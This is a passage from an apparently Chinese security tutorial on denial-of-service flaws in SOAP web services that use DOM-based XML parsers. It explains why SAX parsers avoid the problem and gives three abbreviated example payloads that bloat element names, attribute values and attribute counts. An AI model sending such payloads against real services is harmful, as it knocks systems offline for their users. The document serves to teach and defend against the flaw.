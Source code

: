 [![](./img/85910/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016c036798b9046f03.png)

**5.6 Web Service中的拒绝服务（DoS）漏洞**

客户端发送的XML数据会由服务端的XML解析器进行解析和处理。目前有两类XML解析器，分别为基于SAX（Simple API for XML）的XML解析器以及基于DOM（Document Object Model）的XML解析器。

基于SAX的解析器在工作时，内存中最多容纳2个元素。在这种情况下，基于SAX的解析器不会存在拒绝服务问题。

基于DOM的解析器会一次性读取客户端存储的所有XML数据。因此会导致内存中存在庞大的对象数据。这种情况下，我们难以避免拒绝服务器攻击。导致这种漏洞存在的原因在于我们没有检查XML中节点的大小和数量。

例如，攻击者可以使用如下载荷发起针对元素名称的攻击。



```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;TEST&gt;
&lt;BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA&gt;
&lt;/TEST&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

攻击者可以使用如下载荷发起针对元素属性的攻击。



```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;TEST&gt;
&lt;BGA attribute=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA”&gt;&lt;/BGA&gt;
&lt;/TEST&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

攻击者可以使用如下载荷发起针对元素个数的攻击（也可以通过重复某个特定元素达到同样效果）。



```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;TEST&gt;
&lt;BGA attribute1=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA” attribute2=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA” attribute3=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA”&gt;&lt;/BGA&gt;
&lt;/TEST&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```
